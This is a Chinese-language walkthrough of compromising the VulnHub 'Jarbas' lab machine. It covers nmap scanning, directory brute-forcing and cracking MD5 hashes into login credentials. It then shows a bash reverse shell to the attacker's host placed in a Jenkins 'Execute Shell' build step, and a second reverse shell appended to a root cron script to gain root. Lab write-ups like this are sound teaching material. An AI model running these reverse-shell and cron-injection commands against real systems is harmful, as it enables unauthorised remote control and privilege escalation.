jarbas 渗透
===

>   参考视频: [红队笔记](https://www.bilibili.com/video/BV1jm4y1A7Tm)

<iframe src="//player.bilibili.com/player.html?isOutside=true&aid=688976487&bvid=BV1jm4y1A7Tm&cid=858665055&p=1" scrolling="no"  frameborder="no" framespacing="0" allowfullscreen="true"></iframe>

靶机下载: [vulnhub](https://download.vulnhub.com/jarbas/Jarbas.zip)

### Nmap 扫描

#### 主机发现

先用 Nmap 扫描靶机, 扫出靶机 ip: `192.168.170.137`

```bash
sudo nmap -sn 192.168.170.0/24
```

---



#### 漏洞扫描

先寻找开放的端口:

```bash
sudo nmap --min-rate 10000 -p- 192.168.170.137
```

---



接下来对这些端口做 TCP, UDP 和漏洞脚本扫描:

```bash
sudo nmap -sT -sV -O -p22,80,3306,8080 192.168.170.137
sudo nmap -sU -p22,80,3306,8080 192.168.170.137
sudo nmap --script=vuln -p22,80,3306,8080 192.168.170.137
```

---



---


---


---

### 收集信息

回显 80 端口存在可能的 CSRF 漏洞和 SQL 注入, 3306 端口没有扫描到漏洞。8080 端口存在枚举, 泄露信息。

访问 `192.168.170.137` 和 `192.168.170.137:8080` 分别显示的是网站的首页和后台登录页面。这个**登录页面**很可能就是管理员账号登录界面。



接着根据刚刚的回显访问 `192.168.170.137:8080/robots.txt` , 显示`"we don't want robots to click "build" links. "`



### 目录爆破

用  dirb, gobuster 进行目录爆破:

```bash
sudo dirb http://192.168.170.137
sudo gobuster dir -u http://192.168.170.137 --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

---





dirb 发现了 `cgi-bin` 文件夹和 index.html 文件, gobuster 没有发现文件, 尝试一下用 `-x` 指令指定扩展名, 注意到刚刚 nmap 的回显中有提到 **`user.php`**, 猜测网站的技术栈, 这里添加 `html` 和 `php`:

```bash
sudo gobuster dir -u http://192.168.170.137 --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html
```



访问一下 `http://192.168.170.137/index.html` , 发现就是网站主页; 再访问 `http://192.168.170.137/access.html`:



这里出现的三个字符串非常像 **MD5** 哈希, 随便到一个[工具网站](https://www.cmd5.com/)到进行碰撞 (也可以先在 kali 上用 `hash-identifier` 猜测一下哈希类型), 得到明文分别是: `italia99`, `marianna`, `vipsu`。

也就是全文为:
-   tiago: italia99
-   trindade: marianna
-   eder: vipsu

结合之前的信息, 这一段文字很有可能是登录名和口令。回到登录界面, 挨个试试登录, 发现 `eder: vipsu` 可以直接登录:



### Jenkins 利用

登录后可以直接看见, 靶机网站使用的是 Jenkins 服务器。攻击面主要在 `系统管理` 的项目中。

>   Jenkins 是一种开源的自动化服务器，主要用于实现软件开发中的持续集成和持续交付/部署。它通过自动化构建、测试和部署流程，帮助开发团队高效协作，提升软件交付速度和质量。

接下来新建一个项目, 



靶机是 Linux 服务器, 这里在构建项目时选择 `Execute Shell`, 注意这里填的是kali 的地址, 方便在 kali 中进行监听:



---

```shell
/bin/bash -i >& /dev/tcp/192.168.170.135/4444 0>&1
```

设置完毕后保存, 在 kali 中开启监听:

```bash
sudo nc -lvnp 4444
```

接下来, 在 Jarbas 服务器上构建项目, 就会执行 shell。此时 kali 上已经收到了反弹 shell。先收集一下信息。



尝试一下查看本机用户, 发现可用:



这里能正常登录的账号应该只有 sync 和 eder, sync 应该是数据同步服务的账户, 是一个系统内置的**低权限**账户，一般没有sudo权限, 也不能访问敏感文件, 于是直接考虑 eder 这个账户。

>  sync 用户的默认用途:
>-  核心功能：
>sync 账户的主要职责是触发 内存数据同步到磁盘（强制刷新缓存），防止系统崩溃时数据丢失。对应的命令是 `/bin/sync`（或 `/sbin/sync`），通常由系统自动调用，不需要人工登录。
>-  典型权限配置：
>```bash
># /etc/passwd 中的典型配置
>sync:x:4:65534:sync:/bin:/bin/sync
>```

先试一下 `cat /etc/shadow`, 无权限; 再试试查看定时任务 `cat etc/crontab`, 有回显, 发现系统每五分钟就会执行 `/etc/script/CleaningScript.sh` 这个脚本。



看看这个脚本的内容:



尝试一下, 先在 kali 上开启对应端口的监听, 再把开启 bash 的代码追加在这段定时执行的代码后面:

``` bash
sudo nc -lvnp 4443
```

```bash
echo "/bin/bash -i >& /dev/tcp/192.168.170.135/4443 0>&1" >> /etc/script/CleaningScript.sh
```

五分钟后, kali 上收到了回显:



到这里已经完成了提权, 接下来很容易就能拿到 flag, 大功告成!



### 总结